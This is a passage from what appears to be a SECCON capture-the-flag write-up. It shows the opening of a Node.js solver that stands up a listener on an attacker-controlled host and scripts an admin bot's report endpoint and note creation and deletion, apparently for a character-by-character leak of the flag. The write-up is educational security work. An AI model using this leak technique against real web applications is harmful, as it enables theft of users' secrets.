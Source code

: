 ```javascript
  console.log(`Flag: ${prefix}`);
  process.exit(0);
};
```

See my solver below for details.

### Solver

```javascript title="index.js"
const fastify = require("fastify")();
const fs = require("node:fs").promises;
const crypto = require("node:crypto");

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL ?? fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL ?? fail("No ATTACK_BASE_URL");
const LISTEN_PORT = "8080";

const CHARS = "}_abcdefghijklmnopqrstuvwxyz0123456789";
const HEAVY_LEVEL = 20000;

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const reportUrl = async (url) => {
  const res = await fetch(`${SECCON_BASE_URL}/report`, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({
      url,
    }),
  }).then((r) => r.text());
  console.log(res); // "Received :)"
};

const createNote = (note, cookie) =>
  fetch(`${SECCON_BASE_URL}/api/notes/create`, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
      Cookie: cookie,
    },
    body: JSON.stringify({
      note,
    }),
  });

const deleteNote = (index, cookie) =>
  fetch(`${SECCON_BASE_URL}/api/notes/delete`, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
      Cookie: cookie,
    },
    body: JSON.stringify({
      index,
    }),
  });
```